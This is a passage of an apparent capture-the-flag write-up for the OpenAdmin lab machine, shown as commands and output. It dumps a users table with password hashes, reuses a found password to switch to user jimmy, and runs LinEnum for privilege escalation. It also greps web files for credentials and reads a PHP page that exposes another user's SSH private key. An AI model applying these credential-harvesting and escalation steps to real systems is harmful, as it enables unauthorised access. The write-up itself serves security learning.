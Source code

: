 ```bash

mysql> SELECT * FROM users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2020-04-06 11:33:53 | 2020-04-06 11:33:53 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

I tried using this login info to log in as an admin on the `ona` page we found earlier with no luck.

Spun up a python server and moved `LinEnum.sh` over to the target machine, and ran it. The output can be found in `privesc/LinEnum.output.1`.

Two users are found that look interesting: `jimmy` and `joanna`.

Let's try that `n1nj4W4rri0R!` password on these accounts.

```bash
www-data@openadmin:/var/www$ su jimmy
Password: # n1nj4W4rri0R!
jimmy@openadmin:/var/www$
```

Earlier I noticed a directory `/var/www/internal` that only `jimmy` had permissions for. Let's go check that out now.

```bash
jimmy@openadmin:/var/www/internal$ grep "pass" *
index.php:         .form-signin input[type="password"] {
index.php:            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
index.php:              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
index.php:                  $msg = 'Wrong username or password.';
index.php:            <input type = "password" class = "form-control"
index.php:               name = "password" required>
logout.php:   unset($_SESSION["password"]);
main.php:<h3>Don\'t forget your "ninja" password</h3>

# I want to check out main.php. That comment is interesting...

jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

